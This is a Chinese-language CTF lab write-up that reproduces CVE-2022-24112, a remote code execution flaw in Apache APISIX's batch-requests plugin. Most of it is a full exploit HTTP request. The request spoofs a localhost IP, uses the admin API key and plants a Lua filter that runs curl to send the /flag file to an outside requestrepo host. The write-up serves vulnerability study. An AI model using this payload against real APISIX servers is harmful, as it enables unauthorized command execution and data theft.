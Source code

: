 ```yaml
---
title: CVE-2022-24112【SSRF RCE 待上传】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SSRF RCE 待上传'
---
```


## 1. 漏洞介绍

Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。 Apache APISIX中存在远程代码执行漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin API的IP限制，容易导致远程代码执行。

## 2. 漏洞复现

找到个[GitHub - twseptian/cve-2022-24112: Apache APISIX < 2.12.1 Remote Code Execution and Docker Lab](https://github.com/twseptian/cve-2022-24112)  反弹 shell 的 poc，测试没成功，还是手动来吧……操作如下

在 [Dashboard - requestrepo.com](http://requestrepo.com/#/requests) 申请个新的 url，burp suite抓包改包

```http
POST http://eci-2zei2boyfnn3bvthzalj.cloudeci1.ichunqiu.com:9080/apisix/batch-requests HTTP/1.1
Host: eci-2zei2boyfnn3bvthzalj.cloudeci1.ichunqiu.com:9080
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1696947092; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1696952533; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
Connection: close
Content-Length: 483


{"headers":{"Content-Type":"application/json", "X-REAL-IP": "127.0.0.1"}, "timeout": 500, "pipeline":[{"method": "PUT", "path": "/apisix/admin/routes/index?api_key=edd1c9f034335f136f87ad84b625c8f1", "body":"{\r\n \"name\": \"test\", \"method\": [\"GET\"],\r\n \"uri\": \"/isok\", \r\n \"upstream\":{\"type\":\"roundrobin\",\"nodes\":{\"httpbin.org:80\":1}}\r\n,\r\n\"filter_func\": \"function(vars) os.execute('curl -d @/flag y0e3ope6.requestrepo.com'); return true end\"}"}]}

```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310110925723.png)

访问 isok 触发

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310110925243.png)

拿到 flag

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310110926464.png)
